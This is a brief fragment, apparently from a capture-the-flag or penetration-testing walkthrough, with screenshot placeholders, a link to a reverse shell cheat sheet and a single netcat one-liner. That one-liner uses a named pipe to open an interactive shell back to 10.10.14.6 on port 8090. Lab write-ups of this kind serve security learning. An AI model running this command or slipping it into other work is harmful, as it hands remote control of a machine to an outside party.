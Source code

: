 ![](images/23.png)

[``Reverse Shell Cheat Sheet``](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.6 8090 >/tmp/f
```

![](images/24.png)
